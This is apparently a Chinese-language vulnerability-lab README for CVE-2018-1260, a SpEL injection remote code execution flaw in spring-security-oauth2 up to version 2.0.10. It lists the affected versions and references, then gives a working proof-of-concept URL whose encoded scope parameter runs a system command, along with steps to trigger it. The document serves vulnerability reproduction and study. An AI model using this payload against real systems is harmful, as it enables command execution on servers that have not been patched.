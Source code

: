 ## RCE with spring-security-oauth2【CVE-2018-1260】

测试镜像

* src/spring-security-oauth2/2.0.10

影响版本

* spring-security-oauth2 <= 2.0.10

参考链接

* [RCE with spring-security-oauth2 分析](https://xz.aliyun.com/t/2330)
* [Beware of the Magic SpEL(L) – Part 2 (CVE-2018-1260)](http://gosecure.net/2018/05/17/beware-of-the-magic-spell-part-2-cve-2018-1260/)

Poc

访问url：

```
http://127.0.0.1/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.github.com/chybeta&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22whoami%22%29%7D
```

在返回的登陆页面随意输入账号密码，点击login，触发命令执行
